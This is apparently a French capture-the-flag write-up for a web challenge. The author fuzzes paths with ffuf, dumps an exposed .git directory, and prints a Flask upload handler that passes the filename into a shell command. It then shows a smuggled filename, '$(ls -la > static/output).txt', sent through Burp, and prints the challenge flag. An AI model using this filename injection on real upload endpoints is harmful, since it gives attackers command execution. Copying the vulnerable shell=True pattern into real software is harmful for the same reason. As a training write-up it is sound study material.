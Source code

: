 ## Description
You are Blind but you aren't Deaf. 
Links : https://fcc-web03.chals.io/

## Solution
Dans ce challenge, on a un site web devant nous qui es un site bootstrap.
Donc j'ai d'abord commencer a `Fuzz` les directory sur le `/` mais aucune resulats avec ca, alors j'ai donc inspecter le code source du site web pour avoir quelque informations

![Le Code Source](https://i.ibb.co/L938yvB/p1.png)

Dans ce code source, on vois plusieurs links specificient le `static` comme :
` <link href="static/css/bootstrap-icons.css"`
`<link href="static/css/styles.css" rel="stylesheet" />`
Donc ce que j'ai essayer est de faire du Fuzzing sur Path. Pour ca je vais donc utiliser `ffuf`

```terminal
└─# ffuf -u "https://fcc-web03.chals.io/static/FUZZ" -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://fcc-web03.chals.io/static/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.git/HEAD               [Status: 200, Size: 21, Words: 2, Lines: 2, Duration: 890ms]
flag					[Status: 200, Size: 21, Words: 2, Lines: 1, Duration: 890ms]
```
Interessant, on viens d'avoir un `.git` qui est tres sensitive et aussi un fichier `flag` mais qui etait vide. Donc j'ai proceder pour dumper le `.git` avec l'outil `GitTool` disponible sur Github.
Apres le dump, je trouve 4 Directory.
```
└─# ls
0-160bb136268fbcf7866da3c8625e60e5580d0185  2-9e3ed36dad27c4c7929d51b4c45ea52845bce385
1-2069e965b51e1c7b7974d90441da243dd449fb91  3-01335bb7ecb24bdb68fea92059de29ea4c290631
```
Avec la commande `ls *` on a :
```terminal
└─# ls *  
0-160bb136268fbcf7866da3c8625e60e5580d0185:
app.py  commit-meta.txt  static  templates

1-2069e965b51e1c7b7974d90441da243dd449fb91:
app.py  commit-meta.txt  static  templates

2-9e3ed36dad27c4c7929d51b4c45ea52845bce385:
app.py  commit-meta.txt  static  templates

3-01335bb7ecb24bdb68fea92059de29ea4c290631:
app.py  commit-meta.txt  static  templates
```
D'ici le plus important c'est `app.py` qui es le code de l'application, on va donc afficher tous pour voir.

```terminal
└─# cat */*.py  
from flask import Flask, render_template, request, redirect, url_for
import subprocess, os

UPLOAD_FOLDER = 'uploads'
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'png', 'jpg', 'jpeg', 'gif'}
app = Flask(__name__)

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER


@app.route("/")
def home():
        return render_template("index.html")

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route("/fil3_Upl0ad3r",  methods=['GET', 'POST'])
def files():
        if request.method == 'POST':
                if 'file' not in request.files:
                        flash('No file part')
                        return redirect(url_for('home'))
                file = request.files['file']
                if file.filename == '':
                        flash('No selected file')
                        return redirect(request.url)
                if file and allowed_file(file.filename):
                        ext=file.filename.rsplit('.', 1)[1].lower() 
                        command = 'echo "'+file.filename+'"' + ' | sha1sum'
                        sha1sum=subprocess.run(command, shell=True, check=True, universal_newlines=True, stdout=subprocess.PIPE).stdout
                        file.save(os.path.join(app.config['UPLOAD_FOLDER'], sha1sum+'.'+ext))
                        return redirect(url_for('home'))
        return '''
        <!doctype html>
        <title>Upload new File</title>
        <h1>Upload new File</h1>
        <form method=post enctype=multipart/form-data>
        <input type=file name=file>
        <input type=submit value=Upload>
        </form>
        '''
```
A l'interieur des `app.py` je trouve ce code qui es interessant. On a une declaration d'une route ici `fil3_Upl0ad3r`.
Dans ce directory je trouve un file uploader avec que les extension qui sont autorisees ici : 
`ALLOWED_EXTENSIONS = {'txt', 'pdf', 'png', 'jpg', 'jpeg', 'gif'}`
 Le petit truc que j'ai reussi a comprendre dans ce code est que:

- `command = 'echo "'+file.filename+'"' + ' | sha1sum'`: Une injection de code est possible au moment ou notre fichier doit etre converti en `sha1`.
D'ici ce qu'on peux faire est de ajouter le code qu'on veux executer a notre fichier.
Exemple dans notre Terminal si on se fait
```terminal
┌──(root㉿1337)-[/home/bloman/CTFs/FCC_CTF/files]
└─# filename="$(whoami)" 
                                                                                                    
┌──(root㉿1337)-[/home/bloman/CTFs/FCC_CTF/files]
└─# echo $filename
root
```
Comme on vois ici bien que ca nous a renvoyer la reponse du `whoami`.
Un second exemple ici:
```
┌──(root㉿1337)-[/home/bloman/CTFs/FCC_CTF/files]
└─# filename="$(id;hostnamectl)"
                                                                                                    
┌──(root㉿1337)-[/home/bloman/CTFs/FCC_CTF/files]
└─# echo $filename
uid=0(root) gid=0(root) groups=0(root)
 Static hostname: 1337
       Icon name: computer-laptop
         Chassis: laptop 💻
      Machine ID: 5b6e1889fbdb4bcc88d63eabf7e2110b
         Boot ID: 311a265af1064740b41b87752ce5fd70
Operating System: Kali GNU/Linux Rolling
          Kernel: Linux 6.0.0-kali3-amd64
    Architecture: x86-64
 Hardware Vendor: Hewlett-Packard
  Hardware Model: HP EliteBook Folio 9470m
Firmware Version: 68IBD Ver. F.48
   Firmware Date: Mon 2014-01-13
    Firmware Age: 9y 10month 1w 4d
```
comme on vois la meme chose ici, nos commandes sont bien executer, Donc on va essayer les memes methodes dans le site.
Pour le faire, j'ai utiliser BurpSuite pour modifier les requetes.
J'ai dabord upload un fichier `.txt` et j'ai amener la requete dans le `Repeater`.
Une chose a se rappeler est qu'on a seulement l'access au Directory `static`.
Donc j'ai modifie le nom de mon fichier par:
```
-----------------------------376817465030656881942450160489
Content-Disposition: form-data; name="file"; filename="$(ls -la > static/output).txt"
```
Quand je l'ai envoyer, j'ai une redirection, ce qui veux dire que ca a bien marcher et qu'on a bien inject.
Maintenant allons voir notre `output`

![Success](https://i.ibb.co/JzFNMXf/hacked.png)

Maintenant on a juste a afficher le flag avec la meme Methode.
`FCC{aa44a76888eae0ae250117ac0bb5abaf5ee3fdb2869a31c13ccb49dcaed27aab}`
Merci.

